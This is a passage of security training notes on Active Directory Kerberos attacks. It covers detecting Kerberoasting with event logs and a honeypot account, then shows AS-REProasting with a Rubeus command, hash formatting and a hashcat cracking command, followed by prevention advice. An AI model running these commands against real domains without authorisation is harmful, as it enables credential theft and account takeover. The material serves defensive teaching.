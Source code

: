 Find event log `4769` (`TGS` request) with `Ticket Encryption Type` -> `0x17`, aka `RC4`.

## Honeypot

A honeypot user is a perfect detection option to configure in an AD environment; this must be a user with no real use/need in the environment, so no service tickets are generated regularly. In this case, any attempt to generate a service ticket for this account is likely malicious and worth inspecting. There are a few things to ensure when using this account:

- The account must be a relatively old user, ideally one that has become bogus (advanced threat actors will not request tickets for new accounts because they likely have strong passwords and the possibility of being a honeypot user).
- The password should not have been changed recently. A good target is 2+ years, ideally five or more. But the password must be strong enough that the threat agents cannot crack it.
- The account must have some privileges assigned to it; otherwise, obtaining a ticket for it won't be of interest (assuming that an advanced adversary obtains tickets only for interesting accounts/higher likelihood of cracking, e.g., due to an old password).
- The account must have an SPN registered, which appears legit. IIS and SQL accounts are good options because they are prevalent.

# AS-REProasting

The `AS-REProasting` attack is similar to the `Kerberoasting` attack; we can obtain crackable hashes for user accounts that have the property `Do not require Kerberos preauthentication` enabled. The success of this attack depends on the strength of the user account password that we will crack.

## The Attack

From Ad user:
```Powershell
.\Rubeus.exe asreproast /outfile:asrep.txt
```

For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$, eg:
`$krb5asrep$23$anni@eagle.local:1b912b858c4551c001...`

```bash
sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force
```
Add `--force` if hashcar shown an error.

You'll know you succeded when you see the line
```
Status..........: Cracked
```

## Prevention

As mentioned before, the success of this attack depends on the strength of the password of users with Do not require Kerberos preauthentication configured.

First and foremost, we should only use this property if needed; a good practice is to review accounts quarterly to ensure that we have not assigned this property. Because this property is often found with some regular user accounts, they tend to have easier-to-crack passwords than service accounts with SPNs (those from Kerberoast). Therefore, for users requiring this configured, we should assign a separate password policy, which requires at least 20 characters to thwart cracking attempts.
